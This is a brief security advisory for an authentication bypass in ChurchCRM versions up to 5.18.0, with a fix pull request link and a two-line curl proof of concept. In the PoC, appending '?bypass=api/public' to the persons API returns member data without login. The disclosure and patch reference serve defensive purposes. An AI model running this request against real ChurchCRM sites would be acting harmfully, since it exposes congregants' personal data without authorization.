 Affected versions: ChurchCRM <= 5.18.0
Patched in: PR #7376 (merge commit 3a1cffd) — patch expected in 5.18.1+

Fix PR: https://github.com/ChurchCRM/CRM/pull/7376

Minimal PoC (demonstrates auth bypass):
### unauthenticated (expected HTTP/401)
curl -i 'https://<target>/api/persons/latest'

### bypass by adding query parameter (returns HTTP/200 and member data)
curl -i 'https://<target>/api/persons/latest?bypass=api/public'
